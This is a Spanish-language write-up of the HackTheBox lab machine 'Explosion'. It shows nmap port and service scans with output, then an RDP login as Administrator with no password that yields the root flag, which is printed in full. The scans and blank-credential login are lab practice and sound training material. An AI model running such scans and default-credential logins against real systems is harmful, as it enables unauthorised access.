 # Explosion

Plataforma: HackTheBox
OS: Windows
Level: Very Easy
Status: Done
Complete: Yes
Created time: 4 de enero de 2025 21:01
IP: 10.129.1.13

## Recopilación de información

<aside>
💡

</aside>

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.129.1.13 -oG allports

PORT      STATE SERVICE       REASON
135/tcp   open  msrpc         syn-ack ttl 127
139/tcp   open  netbios-ssn   syn-ack ttl 127
445/tcp   open  microsoft-ds  syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127
5985/tcp  open  wsman         syn-ack ttl 127
47001/tcp open  winrm         syn-ack ttl 127
49664/tcp open  unknown       syn-ack ttl 127
49665/tcp open  unknown       syn-ack ttl 127
49666/tcp open  unknown       syn-ack ttl 127
49667/tcp open  unknown       syn-ack ttl 127
49668/tcp open  unknown       syn-ack ttl 127
49669/tcp open  unknown       syn-ack ttl 127
49670/tcp open  unknown       syn-ack ttl 127
49671/tcp open  unknown       syn-ack ttl 127

```

![image.png](<imagenes/image 69.png>)

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
❯ sudo nmap -p135,139,445,3389,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671 -sCV 10.129.1.13 -oN targeted

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2025-01-04T20:04:51+00:00
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2025-01-03T19:56:16
|_Not valid after:  2025-07-05T19:56:16
|_ssl-date: 2025-01-04T20:04:59+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-04T20:04:55
|_  start_date: N/A
```

- **Identificación de vulnerabilidades**
    - 135/tcp   open  msrpc         syn-ack ttl 127
    - 139/tcp   open  netbios-ssn   syn-ack ttl 127
    - 445/tcp   open  microsoft-ds  syn-ack ttl 127
    - 3389/tcp  open  ms-wbt-server syn-ack ttl 127
    - 5985/tcp  open  wsman         syn-ack ttl 127
    - 47001/tcp open  winrm         syn-ack ttl 127
    - 

## Explotación

<aside>
💡 Probamos a conectarnos por rdp con usuario administrador

</aside>

### Explotación 1

```bash
xfreerdp3 /u:Administrator /v:10.129.1.13
```

Obtenemos login con usuario administrador y la flag de root.

Flag: **951fa96d7830c451b536be5a6be008a0**

## Conclusión

<aside>
💡 Maquina fácil sin escalada ni complicaciones

</aside>
